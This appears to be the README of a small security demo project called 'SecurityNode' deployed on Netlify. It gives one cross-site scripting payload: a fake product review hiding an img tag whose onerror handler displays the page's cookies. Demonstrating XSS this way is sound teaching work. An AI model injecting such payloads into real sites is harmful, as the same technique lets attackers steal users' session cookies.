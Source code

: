 # SecurityNode
[![Netlify Status](https://api.netlify.com/api/v1/badges/236e6c62-ed0d-4a0c-b2b6-c30bb8e14737/deploy-status)](https://app.netlify.com/sites/objective-snyder-f1032e/deploys)

Build & Deploy on Netlify on https://objective-snyder-f1032e.netlify.app/

### XSS
```
Awesome product!
<img src="xyz" style="display:none" onerror="alert(`Your Cookies: ${document.cookie}`);">
```
